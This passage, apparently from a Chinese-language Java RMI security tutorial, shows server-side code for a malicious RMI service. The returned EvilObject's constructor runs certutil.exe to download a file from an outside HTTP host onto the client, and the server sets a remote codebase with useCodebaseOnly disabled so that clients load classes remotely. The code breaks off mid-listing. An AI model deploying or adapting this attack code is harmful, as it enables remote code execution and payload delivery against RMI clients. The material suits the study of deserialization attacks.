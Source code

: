 接着是服务端代码：

```java
/**
*	ServicesImpl1.java
**/
public class ServicesImpl1 implements Services, Serializable {
    @Override
    //这里在服务端将返回值为Object的子类——ExportObject类
    //客户端并不知道该类的定义内容
    public Object sendMessage(String msg) throws RemoteException {
        Object tt= "FDF";
        try {
            tt= new EvilObject();
        }catch (Exception e){

        }
        return tt;
    }
}

/**
*	EvilObject.java
**/
// 恶意类的定义，除了构造函数还有static{}段内可写payload，当然也可以写入别的方法，但需要接口类中有调用
import java.io.Serializable;

public class EvilObject implements Serializable{
    public EvilObject()  throws Exception{
        Runtime.getRuntime().exec("certutil.exe -urlcache -split -f \"http://10.10.10.136:8000/123.txt\" d:\\path_to_desktop\\bad.txt");
    }
}


/**
* testRMI.java
* 主要的服务端代码
**/
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.UnicastRemoteObject;

public class testRMI {
    public static void main(String[] args) {
        try {
            // 实例化服务端远程对象
            ServicesImpl1 obj = new ServicesImpl1();
            // 没有继承UnicastRemoteObject时需要使用静态方法exportObject处理
            Services services = (Services) UnicastRemoteObject.exportObject(obj, 0);
            //设置java.rmi.server.codebase
            System.setProperty("java.rmi.server.codebase", "http://10.10.10.1:8000/");
            System.setProperty("java.rmi.server.useCodebaseOnly","false");
            Registry reg;
            try {
                // 创建Registry
                reg = LocateRegistry.createRegistry(9999);
                System.out.println("java RMI registry created. port on 9999...");
            } catch (Exception e) {
                System.out.println("Using existing registry");
                reg = LocateRegistry.getRegistry();
            }
```